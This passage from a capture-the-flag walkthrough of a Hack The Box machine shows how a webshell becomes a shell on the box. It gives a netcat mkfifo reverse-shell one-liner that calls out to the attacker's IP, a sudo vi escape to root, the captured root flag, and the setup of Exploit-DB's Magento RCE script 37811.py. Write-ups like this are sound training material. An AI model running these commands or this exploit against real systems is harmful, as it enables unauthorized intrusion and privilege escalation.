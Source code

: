 At this point I tried a bunch of techniques to get a full tty but none &nbsp;of them worked. I then thought about a different technique to get a &nbsp;slightly better shell.  
To do this I started another listener with `nc -lvp 4096` and then in the webshell I ran

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 4096 > /tmp/f`

This allowed me to catch a sh shell in my other listener.. I can now run vi as root with:

`sudo vi /var/www/html/cron.sh`

and once I'm in vi I can spawn a root shell with `:!/bi/sh`

And now we can go after the root flag:

    id
    uid=0(root) gid=0(root) groups=0(root)
    cd /root
    ls
    root.txt
    cat root.txt
    c2b087d66e14a652a3b86a130ac56721
    
       ______
     /| |/|\| |\
    /_| ´ |.` |_\ We are open! (Almost)
      | |. |
      | |. | Join the beta HTB Swag Store!
      | ___|.__ | https://hackthebox.store/password
    
                       PS: Use root flag as password!

## Extra Credit

At this point I decided to revist the other authenticated RCE as I felt I &nbsp;should be able to chain this with the first one to get a shell, as &nbsp;documented in the Checkpoint article.

First we need to grab the exploit so we can play with it

`cp /usr/share/exploitdb/exploits/php/webapps/37811.py .`

This code is pretty much good to go, we just need some config:

    # Config.
    username = ''
    password = ''
    php_function = 'system' # Note: we can only pass 1 argument to the function
    install_date = 'Sat, 15 Nov 2014 20:27:57 +0000' # This needs to be the exact date from /app/etc/local.xml

The username and password are those from the first exploit, so **forme** in my case. The install\_date is needed as this is used as part of the &nbsp;encryption routine we're going to exploit. Luckily Nikto reported that &nbsp;the `/app` directory was indexable. If we browse to `http://10.10.10.140/app/etc/local.xml` we can get this information.
